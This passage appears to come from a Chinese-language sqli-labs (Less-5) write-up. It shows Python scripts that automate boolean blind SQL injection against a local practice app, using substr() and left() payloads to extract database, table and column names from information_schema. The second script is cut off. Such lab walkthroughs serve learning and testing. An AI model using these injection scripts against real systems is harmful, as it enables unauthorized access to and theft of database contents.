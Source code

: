 ```python
        id = "99'or substr((select group_concat(schema_name) from information_schema.schemata)," + str(i)+",1)='"+s+"'%23"
        # 爆表
        # id = "99'or substr((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+",1)='"+s+"'%23"
        # 爆字段
        # id = "99'or substr((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+",1)='"+s+"'%23"
        tmp_url = url + "?id=" + id
        resp = requests.get(tmp_url)
        
        if "You are in" in resp.text:
            i += 1
            flag += s
            # 最后一次成功拼接作为开始，判断超时
            start = time.time()
            print(f"[#]------{flag}")
            break
        else:
            pass
    end = time.time()
    # 目标服务器性能可能存在差距，适当调整超时时间
    try:
        if end - start > 1.5:
            if flag != "":
                print("盲注结束，检查flag是否是预期结果！")
            else:
                print("检测到长时间没有再获取到响应，该脚本布尔盲注可能并不适配退出")
            exit()  
    except NameError:
        print("在第一轮循环中未找到合适的开始字符，检查环境是否适合布尔盲注或扩充flags变量(可能出现的字符")
        exit()
```

![6](/medias/sqli-labs/6.png)

使用`left()`、`right()`函数实现，`right()`函数按照`left()`模板补充即可

```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://127.0.0.1:8080/Less-5/"
i = 1
print("脚本正在运行.......")
while True:
    
    for s in flags:
        # 爆库
        # id = "99'or left((select group_concat(schema_name) from information_schema.schemata)," + str(i)+")='"+ flag + s+"'%23"
        # 爆表
        # id = "99'or left((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+")='"+ flag + s +"'%23"
        # 爆字段
        # id = "99'or left((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+")='"+ flag + s+"'%23"

        # 测试right函数
```